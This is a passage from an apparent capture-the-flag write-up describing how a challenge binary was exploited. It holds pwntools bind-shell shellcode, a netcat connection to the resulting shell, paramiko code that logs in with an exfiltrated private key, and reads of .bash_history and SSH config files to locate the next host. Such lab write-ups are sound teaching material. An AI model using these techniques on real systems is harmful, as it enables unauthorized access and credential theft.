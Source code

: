 ```python
context.update(arch='amd64', os='linux')
shellcode = asm(shellcraft.bindsh(10041, "ipv4"))
```

This will open up port `10041` and serve a shell to the first connection.  Let's try it out locally to see if we are successful.  We are freshly running the `powershell_lp` binary as the user `test` and exploiting as a different user in this case.  After running the exploit, we can see a welcome sight via `netstat`:

```bash
$ netstat -plant
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:10041           0.0.0.0:*               LISTEN      -
```

Our bind shell appears to be up and running!  Let's connect to verify the results:

```bash
$ nc localhost 10041
whoami
test
```

### The last step

Fantastic!  We have successfully exploited the LP binary and gained a shell as the target user.  The only thing left to do is spin up the task 10 infrastructure and exploit the real deal.  In addition to following the steps above, we will need to account for utilizing the exfiltrated `id_rsa` file to enable `paramiko` SSH access.  This is a fairly simple modification:

```python
username = "lpuser"
key = paramiko.RSAKey.from_private_key_file("id_rsa_lp")
ssh = paramiko.SSHClient()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
ssh.connect(server, username=username, pkey=key)
```
Running our exploit against the real target, we successfully gain a shell as `psuser`.  Once we are in, a quick look at `.bash_history` reveals an SCP command to our target port with `nexthop` as the host.  Another quick glance at `/home/psuser/.ssh/config` reveals the IP of `nexthop`, and we have our answers for task 10:

```bash
$ cat .bash_history
ls -la
date
wc ps_*
less ps_data.log
less ps_server.log
man scp
scp -P 37335 ~/ps_data.log nexthop:

$ cd .ssh
$ ls
config
id_rsa
id_rsa.pub
$ cat config
Host nexthop
    Hostname: 10.83.142.128
    User: user
    IdentityFile: /home/psuser/.ssh/id_rsa
```
